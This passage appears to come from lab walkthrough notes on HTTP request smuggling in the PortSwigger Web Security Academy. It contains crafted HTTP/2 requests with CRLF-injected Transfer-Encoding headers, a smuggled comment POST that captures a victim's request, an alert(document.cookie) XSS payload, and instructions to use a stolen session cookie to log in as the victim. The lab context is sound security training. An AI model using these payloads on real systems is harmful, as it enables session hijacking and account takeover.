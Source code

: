     GET /resources
    Host: exploit-0a9e006a046b7d6a80a0201a014a00ee.exploit-server.net
    Content-Length: 10

    x=

Now at the exploit server, rename the file to `/resources/` and add this script to the body:

    alert(document.cookie)

This attack only works when our HTTP smuggling request arrive after the victim visit the home page and before the victim's browser loads the Javascript file (via the `script` tag). To automate this attack use Burp Intruder with a `Sniper attack` for `Null payloads`, set the `Maximum concurrent requests` to `1` and `Delay between requests` to `300` (make sure to disable `Update Content-Length header`).

### LAB: HTTP/2 request smuggling via CRLF injection
Notice the frontend is stripping of the TE header. To bypass this send this request:

    :scheme: https
    :method: POST
    :path: /
    :authority: 0a7b00e804a0e88b80203fff000500d8.web-security-academy.net
    cookie: session=ewyjBxPEkaeHJ0gPeGOnI0a13kg3HC1c
    cookie: _lab_analytics=9ckshoDELLJa5dbtc9rvkpBJ3eQrL8KQrvOcZuqQcMXCgnysokmFOmq03xVL0laLOhWux46aedpC8xsZNJwzvv1kPIPhtHIjWqEUIKTbYMxTcWjAEBj2EStxoo8vGzC6ZHvEdZ7JE7avHP8gcUwsnu6eaZdUVa1mxyYUGKBF0RaEIsD7LskR5E5g0UWz9n9Dt7XAHfqPnqcNwmazbG1j2e3PocNHRiOkqAoUhwR1VTTvP3DyXE5yD3i3IQxqSIB6
    content-length: 609
    content-type: application/x-www-form-urlencoded
    cache-control: max-age/r/nTransfer-Encoding: chunked

    0

    POST /post/comment HTTP/1.1
    Host: 0a7b00e804a0e88b80203fff000500d8.web-security-academy.net
    Cookie: session=ewyjBxPEkaeHJ0gPeGOnI0a13kg3HC1c; _lab_analytics=9ckshoDELLJa5dbtc9rvkpBJ3eQrL8KQrvOcZuqQcMXCgnysokmFOmq03xVL0laLOhWux46aedpC8xsZNJwzvv1kPIPhtHIjWqEUIKTbYMxTcWjAEBj2EStxoo8vGzC6ZHvEdZ7JE7avHP8gcUwsnu6eaZdUVa1mxyYUGKBF0RaEIsD7LskR5E5g0UWz9n9Dt7XAHfqPnqcNwmazbG1j2e3PocNHRiOkqAoUhwR1VTTvP3DyXE5yD3i3IQxqSIB6
    Content-Length: 940
    Content-Type: application/x-www-form-urlencoded

    csrf=Qhb8OnDvOSaDlZazktXIM5MHwhqTXKEF&postId=8&name=pu&email=haha%40gmail.com&website=http%3A%2F%2Faha.com&comment=

> To add the TE header inside the cache-control header, use Inspector $\to$ change the value using `Shift+Enter` to add the CRLF character and append the TE header.

Go to the blog page and observe the victim's cookie. Use it to login as the victim.

### LAB: HTTP/2 request splitting via CRLF injection
Send this request:

    :scheme: https
    :method: POST
    :path: /404
    :authority: 0afa001c0444e839802b5da000d20030.web-security-academy.net
    cookie: session=wHocCe9IWXgoBdJwUgt9syJVkPJ10HBa
    content-type: application/x-www-form-urlencoded
    content-length: 0
    accept-language: en-US,en;q=0.9
